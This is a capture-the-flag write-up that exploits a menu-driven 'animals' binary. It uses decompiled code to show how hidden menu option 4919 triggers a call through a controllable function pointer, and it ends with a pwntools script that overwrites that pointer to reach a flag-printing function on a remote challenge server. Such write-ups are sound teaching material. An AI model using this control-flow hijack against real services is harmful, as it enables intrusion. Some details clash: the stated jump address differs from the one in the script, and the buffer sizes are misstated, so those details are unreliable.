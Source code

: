 Here we have a program with which we can create three types of animals (lion, tiger, bear).
The animals can be created with a menu and each animal has a type and a name.
A maximum of 4 animals can be created and animals can also be deleted. 

If we run the program we get something like :

	Welcome! I don't think we're in Kansas anymore.
	We're about to head off on an adventure!
	Select some animals you want to bring along.

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	Enter your choice:
	$ 1
	Choose the type of lion you want:
	1: Congo Lion
	2: Barbary Lion
	$ 1
	Enter name of lion:
	$ SomeLionName

	Menu Options:
	1: Bring a lion
	2: Bring a tiger
	3: Bring a bear
	4: Delete Animal
	5: Exit

	...


If we open the code with IDA, we find this function to print the flag :

	__int64 l33tH4x0r()
	{
	  FILE *stream; // ST08_8@1
	  char s; // [sp+10h] [bp-40h]@1
	  __int64 v3; // [sp+48h] [bp-8h]@1

	  v3 = *MK_FP(__FS__, 40LL);
	  stream = fopen("flag.txt", "r");
	  fgets(&s, 50, stream);
	  puts(&s);
	  fflush(stdout);
	  fclose(stream);
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}

We find in the assembly that its address is 0x40090D which will be useful later.

We also find that in the makeStuff function there is a call to pwnMe() :

	int makeStuff()
	{
	  int result; // eax@10
	  unsigned int v1; // [sp+Ch] [bp-4h]@1

	  puts("Enter your choice:");
	  fflush(stdout);
	  __isoc99_scanf(4198360LL, &v1);
	  getchar();
	  if ( v1 == 3 )
	  {
	    result = makeBear();
	  }
	  else if ( (signed int)v1 > 3 )
	  {
	    if ( v1 == 5 )
	      exit(0);
	    if ( (signed int)v1 >= 5 )
	    {
	      if ( v1 == 4919 )
	        pwnMe();       // <------- HERE -------
	LABEL_16:
	      printf("Invalid choice :(   %d\n", v1);
	      exit(0);
	    }
	    result = deleteAnimal();
	  }
	  else if ( v1 == 1 )
	  {
	    result = makeLion();
	  }
	  else
	  {
	    if ( v1 != 2 )
	      goto LABEL_16;
	    result = makeTiger();
	  }
	  return result;
	}

This tells us that to call pwnMe, we need to choose the Menu Option 4919.

The pwnMe function looks like that :

	void __noreturn pwnMe()
	{
	  __int64 v0; // [sp+0h] [bp-10h]@1

	  v0 = (__int64)*(&pointers + bearOffset);
	  if ( *(_DWORD *)(v0 + 20) == 3 )
	    (*(void (**)(void))v0)();
	  exit(0);
	}

So if the 20th byte after the address v0 (v0[20]) is 3, the program calls the function
at the address written at v0 (the first word, so 4 bytes of v0).

If we can replace the first word of v0 with 0x40090D (the address of l33tH4x0r),
we can print the flag.

If we don't create any bear, v0 will point at the buffer at the first address in pointers.


Now let's look at makeTiger : 

	__int64 makeTiger()
	{
	  void *v0; // ST08_8@1

	  v0 = malloc(0x18uLL);
	  *((_DWORD *)v0 + 5) = pickTigerType(24LL);
	  puts("Enter name of tiger:");
	  fflush(stdout);
	  __isoc99_scanf(4198421LL, v0);
	  *(&pointers + next) = v0;
	  return (unsigned int)(next++ + 1);
	}

We see that when we create a Tiger, a buffer of 32 bytes is allocated and
the 5th word of the buffer is the tigerType.

The first address in pointers is then the address of this buffer because next is 0 initially.

So if we want to pwnMe to work, we need to choose 3 as the Tiger Type (the fifth word will be three,
so the 20th byte after &pointers will be also 3 and the function in v0 will be called).

We can also see that the name writes directly at the beginning of this buffer, so we can directly write
the address to jump to (0x40090D) as the name. This will work even if 0D is a carriage return, because
scanf accepts these characters. If the function would be fgets, we would have to jump a little further, 
let's say 0x40090E.

We can retrieve the flag with this python script :

	from pwn import *

	# the address to jump to to print the flag
	l33tH4x0r_addr = 0x4008DD

	# remote interaction with the program
	with remote('104.155.227.252', 25050) as p:
		print p.recvuntil('choice:')
		p.sendline('2') # tiger
		print p.recvuntil('want:')
		p.sendline('3') # type
		print p.recvuntil('tiger:')
		p.sendline(p64(l33tH4x0r_addr))

		# pwnMe
		print p.recvuntil('choice:')
		p.sendline('4919')

		print p.recvall()